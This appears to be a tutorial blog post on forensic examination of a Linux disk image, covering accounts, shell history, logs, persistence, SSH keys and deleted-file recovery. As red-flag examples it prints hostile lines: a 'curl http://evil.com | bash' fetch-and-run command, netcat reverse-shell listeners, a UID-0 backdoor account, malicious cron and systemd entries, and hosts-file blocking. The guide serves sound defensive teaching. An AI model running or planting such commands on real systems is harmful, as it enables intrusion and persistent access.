

You're handed a raw `.img` or `.dd` file — a bit-for-bit copy of a Linux hard drive. No running machine. No login. No documentation. Just bytes. The suspect already wiped the original disk.

This is not the end of the investigation. It's the beginning. Linux systems leave evidence *everywhere* — in logs, in shell histories, in filesystem metadata, even in deleted files. This guide walks you through exactly what to look at, what it means, and why it matters — written so that even if you've never touched Linux before, you'll understand what you're looking at.

---

## Rule Zero: Mount the Image Read-Only

Before you open a single file, you must **mount** the image — think of it like plugging in a USB drive so your computer can read it. But here's the critical difference: you must mount it **read-only**.

Why? Because the moment you mount a drive normally, the operating system starts writing to it — updating "last accessed" timestamps, creating temp files, modifying metadata. In forensics, those timestamps *are* the evidence. One accidental write can destroy your timeline.

```bash
# Step 1: Find where the partition starts inside the image
fdisk -l suspect.img
# Look for a line like: "Linux" starting at sector 2048
# Byte offset = sector × 512, so 2048 × 512 = 1048576

# Step 2: Mount read-only, with timestamp updates disabled
sudo mount -o ro,loop,offset=1048576,noatime suspect.img /mnt/img
```

> **On Windows?** Use [Arsenal Image Mounter](https://arsenalrecon.com/products/arsenal-image-mounter) — it handles raw images and enforces write-blocking through a GUI.
{: .prompt-tip }

> Never mount writable. Even a single `ls` command can modify access timestamps and corrupt your timeline.
{: .prompt-danger }

---

## The 7 Questions Every Linux Investigation Must Answer

Think of these as your compass. Every artifact you examine is answering one of these:

| # | Question | Where to Look |
|:---|:---|:---|
| 1 | Who had accounts on this system? | `/etc/passwd`, `/etc/shadow` |
| 2 | What commands did they actually run? | `~/.bash_history` |
| 3 | When did logins happen — and from where? | `wtmp`, `btmp`, `auth.log` |
| 4 | How did malware survive after a reboot? | Cron jobs, systemd services, `.bashrc` |
| 5 | What hacking tools were installed? | `apt/history.log`, `dnf.log` |
| 6 | Did this machine talk to the attacker? | `authorized_keys`, `known_hosts` |
| 7 | Did someone try to destroy evidence? | Log gaps, deleted inodes |

---

## Linux Artifact Map — What Is What

Before going further, here's a visual map of every key location on a Linux system and what it does. Think of this as your reference card.


- **Identity & Access** — `/etc/passwd`, `/etc/shadow`, `sudoers` — defines *who* the system thinks exists and *what they're allowed to do*. This is where user accounts and passwords live.
- **Shell & History** — `.bash_history`, `.bashrc`, `.bash_profile` — records *every command a user typed* in the terminal. `.bashrc` also runs code automatically every time someone opens a terminal.
- **System Logs** — `auth.log`, `syslog`, `wtmp`, `journal/` — the system's written memory of *what happened, when, and who triggered it*. Think of it as the security camera footage.
- **Persistence** — `crontab`, `systemd/system/`, `rc.local` — controls *what automatically runs after a reboot*. This is how malware survives being killed.
- **Network & SSH** — `authorized_keys`, `known_hosts`, `/etc/hosts` — controls *who can connect to this machine remotely*, and reveals *where this machine connected out to*.
- **Filesystem** — `/tmp/`, `/var/tmp/`, EXT4 inodes — where attackers *stage payloads*, and where *deleted files leave behind recoverable ghosts*.

---

## 1. User Accounts — Who Existed on This Machine?

**What these files are:** Linux stores every user account in plain text files. `/etc/passwd` is the public list — every account, its ID number, home folder, and what shell it uses. `/etc/shadow` stores the actual password (as a cryptographic hash — not readable directly, but tells you *when* the password was set).

```
/etc/passwd   → Every account: name, ID number (UID), home folder, login shell
/etc/shadow   → Password hashes + the date each password was last changed
/etc/group    → Which users belong to which groups
```

**What to look for — red flags in `/etc/passwd`:**

```
root:x:0:0:root:/root:/bin/bash            ← Legitimate root account (UID 0 = superuser)
backdoor:x:0:0::/root:/bin/bash           ← ALARM: UID 0 but not named root = planted backdoor
webservice:x:1001:1001::/home/web:/bin/bash ← Service account that can open a terminal — suspicious
```

> **UID explained:** Every Linux user has a numeric ID called a UID. The number `0` means full administrator ("root") access. Any account with UID 0 that isn't named `root` is almost certainly a backdoor planted by an attacker.
{: .prompt-info }

Run this to instantly flag all root-level accounts:

```bash
awk -F: '$3 == 0' /mnt/img/etc/passwd
```

Also check when `/etc/passwd` was last changed — if the modification date matches your incident window, an account was added then:

```bash
stat /mnt/img/etc/passwd
```

---

## 2. Bash History — The Attacker's Command Diary

**What this file is:** Every time a user types a command in the Linux terminal (bash shell), that command gets saved to a hidden file called `.bash_history` in their home folder. It's like an automatic activity log — most users don't even know it exists.

```
/home/<username>/.bash_history   → That user's command history
/root/.bash_history              → The root (admin) user's command history
/home/<username>/.zsh_history    → Same, if they used the zsh shell instead
```

**Commands that are instant red flags:**

| What You See | What It Means in Plain English |
|:---|:---|
| `wget http://45.33.32.1/x.sh` | Downloaded a file from the internet (possible malware) |
| `curl http://evil.com \| bash` | Downloaded *and immediately executed* something — classic malware delivery |
| `nc -lvp 4444` or `ncat` | Opened a listening network port — used for reverse shells (attacker connects back) |
| `chmod +x /tmp/payload` | Made a file executable — `chmod +x` = "give this file permission to run" |
| `history -c` or `rm ~/.bash_history` | Tried to delete their own command history — caught in the act of covering tracks |
| `tar czf /tmp/data.tar.gz /home/` | Compressed and staged a user's files — likely preparing for data theft |
| `useradd backdoor` or `passwd backdoor` | Created or changed a user account — possible backdoor installation |
| `crontab -e` | Edited the scheduled task list — setting up something to run repeatedly |

> **The attacker's mistake:** `history -c` only clears the history stored in memory for the current session. It does **not** erase the `.bash_history` file on disk. Investigators find it intact almost every time.
{: .prompt-tip }

---

## 3. Logs — The System's Security Camera Footage

**What logs are:** Linux constantly writes activity to text files in `/var/log/`. Think of these as a security camera that recorded everything — who logged in, what they ran with admin privileges, what packages were installed, and whether services crashed.

### The Most Important Log: `auth.log` or `secure`

This file captures every authentication event — every login attempt, every time someone used `sudo` to run something as admin, every account creation.

- **Debian/Ubuntu systems:** `/var/log/auth.log`
- **RHEL/CentOS systems:** `/var/log/secure`

```bash
# Pull all the events that matter most:
grep -E "(Accepted|sudo|useradd|COMMAND)" /mnt/img/var/log/auth.log
```

| What You See in the Log | What It Means |
|:---|:---|
| `Accepted password for root from 45.33.32.1` | Someone logged in as root via SSH from an external IP — almost always suspicious |
| `sudo: john : COMMAND=/bin/bash` | User "john" ran a full admin shell using sudo — essentially became root |
| `new user: name=backdoor, UID=0` | A new root-level account was just created on the system |
| `Failed password for root from 45.33.32.1` (×500) | Someone was brute-forcing the root password over SSH |

### Other Logs Worth Checking

```
/var/log/syslog          → General system events — services starting, stopping, crashing
/var/log/cron            → Every time a scheduled (cron) task ran
/var/log/apt/history.log → Every package installed or removed via apt (human-readable)
/var/log/journal/        → The modern systemd journal — binary format, use journalctl to read
```

> **A missing window in the logs is as suspicious as the logs themselves.** If `syslog` shows activity until 2 AM and then nothing until 5 AM, those 3 hours were likely deleted. Real systems generate continuous log entries — silence is a red flag.
{: .prompt-warning }

---

## 4. Persistence — How Malware Survived Reboots

**The key question:** Malware that only runs once is useless to an attacker. To maintain access, it needs to *automatically restart* after the machine reboots. Linux has several mechanisms for this — all of them are also abused by attackers.

### Cron — The Scheduled Task System

Cron is Linux's built-in task scheduler. It runs commands automatically at set times (every minute, every hour, daily, etc.). Attackers use it to re-launch malware.

```
/etc/crontab                        → System-wide schedule (runs as any user)
/var/spool/cron/crontabs/<user>     → Per-user schedule
/etc/cron.d/                        → Drop-in cron files added by apps or attackers
```

**A malicious cron entry looks like this:**
```
* * * * * /tmp/.x > /dev/null 2>&1
```
Translation: *"Every single minute, run the hidden file `/tmp/.x`. Hide all output so nothing shows on screen."*

The `* * * * *` means "every minute". The `/tmp/.x` is a hidden file (starts with a dot) in the temp folder — a classic malware hiding spot.

### systemd Services — The Modern Startup System

Modern Linux uses systemd to manage what starts on boot. Each service is defined by a small config file called a **unit file**.

```
/etc/systemd/system/           → System-wide services (start at boot)
~/.config/systemd/user/        → User-level services (start on login)
```

**What a malicious unit file looks like:**
```ini
[Unit]
Description=System Update Helper

[Service]
ExecStart=/var/tmp/.payload.py    ← The malware binary
Restart=always                    ← Restarts automatically if killed
RestartSec=30

[Install]
WantedBy=multi-user.target        ← Starts on every boot
```

The fake "System Update Helper" name is deliberate — it looks legitimate at a glance.

### Shell Init Files — Code That Runs on Every Login

```
~/.bashrc         → Runs every time this user opens a terminal
~/.bash_profile   → Runs every time this user logs in (SSH, local)
/etc/profile.d/   → Runs for *all* users on login (system-wide)
```

Attackers add commands here so their code runs silently every time the victim logs in — even without cron or systemd.

---

## 5. Login Records — Who Was Actually on This Machine?

Linux maintains **binary databases** (not plain text) of login activity. You can't open them with a text editor — you need specific commands to read them.

| File | Tool to Read It | What It Contains |
|:---|:---|:---|
| `/var/log/wtmp` | `last -f /mnt/img/var/log/wtmp` | Every successful login — username, source IP, time in/out |
| `/var/log/btmp` | `lastb -f /mnt/img/var/log/btmp` | Every **failed** login attempt — used to detect brute-force |
| `/var/log/lastlog` | `lastlog -R /mnt/img` | The most recent login for each user account |

```bash
last -f /mnt/img/var/log/wtmp | head -20

# Example output:
# john    pts/0   192.168.1.50  Tue Jun 10 01:14  still logged in
# root    tty1                  Mon Jun  9 21:58 - 22:00
# reboot  system boot           Mon Jun  9 22:00
```

This tells you: root logged in at a local console at 21:58, then the machine rebooted at 22:00 (possibly after malware installation), then john logged in remotely from 192.168.1.50 at 01:14.

---

## 6. Network Artifacts — Who Did This Machine Talk To?

### SSH Keys — The Silent Backdoor

SSH (Secure Shell) is how administrators connect to Linux machines remotely. Instead of a password, SSH can use a **key pair** — a public key that lives on the server, and a private key held by the person connecting.

```
~/.ssh/authorized_keys   → Public keys that are allowed to SSH in as this user — WITHOUT a password
~/.ssh/known_hosts       → Fingerprints of every server this user has connected to via SSH
```

If an attacker plants their public key in `authorized_keys`, they can SSH back in anytime — silently, with no password, even after the victim changes their password.

```bash
# Check for planted keys:
cat /mnt/img/root/.ssh/authorized_keys
# Any key here gives its owner passwordless root access
```

**`known_hosts`** works in reverse — it tells you where *this machine* connected *to*. Even if bash history was wiped, `known_hosts` still shows the SSH destinations.

### `/etc/hosts` — DNS Hijacking

`/etc/hosts` is a simple text file that maps hostnames to IP addresses. It's checked **before** the internet DNS system. Attackers modify it to block security tools from reaching their servers:

```
127.0.0.1    virustotal.com       ← Antivirus scans now go nowhere
127.0.0.1    windowsupdate.com    ← System can't download security updates
127.0.0.1    av.kaspersky.com     ← Antivirus can't update its signatures
```

`127.0.0.1` is "localhost" — the machine itself. Pointing `virustotal.com` there means any attempt to reach VirusTotal just loops back to the machine and fails silently.

---

## 7. Filesystem Forensics — Evidence That Survives Deletion

### MACB Timestamps — Every File Has Four Clocks

Every file on a Linux (EXT4) filesystem carries four timestamps. These are stored in the **inode** — a small metadata record that exists separately from the file's actual content. Even when a file is deleted, the inode often survives.

| Timestamp | Letter | What Updates It |
|:---|:---|:---|
| **Modified** | M | The file's content was changed |
| **Accessed** | A | The file was read or opened |
| **Changed** | C | The file's metadata changed (permissions, owner, rename) |
| **Birth** | B | The file was first created (EXT4 only) |

```bash
stat /mnt/img/tmp/suspicious_file

# Output:
# Access: 2026-06-10 01:22:33
# Modify: 2026-06-09 23:45:12
# Change: 2026-06-09 23:45:14
# Birth:  2026-06-09 23:45:12
```

> **Timestomping — Caught by the Clock That Can't Lie:** Attackers use a command called `touch -t` to fake a file's timestamps — making malware look like it was created years ago. This can fool `Modify` and `Access` timestamps. But it cannot change the `Change` (ctime) timestamp without root access to kernel internals. So a file that claims it was last modified in 2020 but has a `Change` timestamp of 2026 has been tampered with.
{: .prompt-warning }

### Recovering Deleted Files

When a file is deleted in Linux, the system removes the directory entry (the file's name and location) but does **not** immediately wipe the actual data. The inode record — and often the file contents — stay on disk until overwritten by new data.

```bash
# List all files including deleted ones (deleted = marked with * at the start)
fls -r -l /dev/loop0p1 | grep "^\*"

# Recover a specific file using its inode number
icat /dev/loop0p1 <inode_number> > recovered_file
```

### SUID Binaries — A Privilege Escalation Trap

**What SUID means:** Normally, a program runs with the permissions of the person who launched it. A file with the **SUID bit** set runs with the permissions of the file's *owner* — regardless of who launches it. If a file is owned by root and has SUID set, anyone who runs it effectively runs it as root.

This is legitimate for a few system tools (like `passwd` — you need root access to change your own password). But attackers plant SUID files to give themselves permanent root access.

```bash
# Find all SUID files on the image:
find /mnt/img -perm -4000 -type f 2>/dev/null

# These are legitimate and expected:
/usr/bin/passwd  /usr/bin/sudo  /usr/bin/su  /usr/bin/ping

# These are NOT — check them immediately:
/tmp/.hidden/bash       ← A copy of bash with SUID = instant root shell for anyone
/usr/bin/python3        ← Python with SUID = attacker can read any file as root
```

Cross-reference anything unusual against [GTFOBins](https://gtfobins.github.io/) — a public database of how each binary can be abused for privilege escalation.

---

## 10-Minute Triage — The First Commands You Run

Copy and run this entire block against your mounted image. It hits all the highest-value artifacts in sequence:

```bash
IMG=/mnt/img   # Change this to wherever you mounted the image

# 1. Any accounts with full root (UID 0) that aren't named root?
awk -F: '$3 == 0' $IMG/etc/passwd

# 2. Who logged in recently, from what IPs?
last -f $IMG/var/log/wtmp | head -20

# 3. What did root type in the terminal?
tail -100 $IMG/root/.bash_history

# 4. What did every other user type?
for h in $IMG/home/*; do echo "=== $h ==="; tail -30 "$h/.bash_history" 2>/dev/null; done

# 5. Key auth events: logins, sudo, new accounts
grep -E "(Accepted|sudo|useradd)" $IMG/var/log/auth.log | tail -50

# 6. Anything hiding in temp folders?
ls -laR $IMG/tmp $IMG/var/tmp 2>/dev/null

# 7. Any scheduled tasks (cron)?
cat $IMG/etc/crontab 2>/dev/null
ls -la $IMG/var/spool/cron/crontabs/ 2>/dev/null

# 8. Any SSH backdoor keys planted?
cat $IMG/root/.ssh/authorized_keys 2>/dev/null
for h in $IMG/home/*; do echo "=== $h ==="; cat "$h/.ssh/authorized_keys" 2>/dev/null; done

# 9. Suspicious SUID files (filter out the known-safe ones)?
find $IMG -perm -4000 -type f 2>/dev/null | grep -vE "(passwd|sudo|su$|ping|mount|newgrp|chfn|chsh)"

# 10. Known attack tools installed via apt?
grep -iE "(nmap|netcat|hydra|john|hashcat|nikto|sqlmap|metasploit)" $IMG/var/log/apt/history.log 2>/dev/null
```

---

## Investigation Flow



---

## Complete Artifact Quick Reference

| Artifact | Path | The Question It Answers |
|:---|:---|:---|
| User accounts | `/etc/passwd` | Who existed? Any UID 0 backdoors? |
| Password history | `/etc/shadow` | When were accounts created or changed? |
| Command history | `~/.bash_history` | What did this person actually type? |
| Auth events | `/var/log/auth.log` | Who logged in? What did they run as admin? |
| Login sessions | `/var/log/wtmp` | When did sessions start/end, from what IP? |
| Failed logins | `/var/log/btmp` | Was the machine being brute-forced? |
| Scheduled tasks | `/var/spool/cron/crontabs/` | Is anything set to run automatically? |
| Boot services | `/etc/systemd/system/` | What starts at boot that shouldn't? |
| Shell startup | `~/.bashrc`, `~/.profile` | Is any code injected into every login? |
| SSH backdoors | `~/.ssh/authorized_keys` | Who planted a key for silent re-entry? |
| SSH history | `~/.ssh/known_hosts` | Where did this machine connect to via SSH? |
| Software installs | `/var/log/apt/history.log` | Were attack tools deliberately installed? |
| Staging area | `/tmp/`, `/var/tmp/` | Are payloads or stolen data stored here? |
| Priv-esc binaries | `find -perm -4000` | Are there SUID files that grant root access? |
| DNS manipulation | `/etc/hosts` | Were security domains blocked? |

---

## Tools

| Tool | What It Does |
|:---|:---|
| **Autopsy** | GUI-based full forensic analysis of disk images — good starting point |
| **The Sleuth Kit (TSK)** | Command-line toolkit: `fls` lists files (including deleted), `icat` recovers them |
| **log2timeline / Plaso** | Merges all artifact timelines (logs, history, filesystem) into one sorted view |
| **Arsenal Image Mounter** | Mounts raw `.img` / `.dd` images safely on Windows with write protection |
| **Volatility** | Memory forensics — use if you also have a RAM dump alongside the disk image |
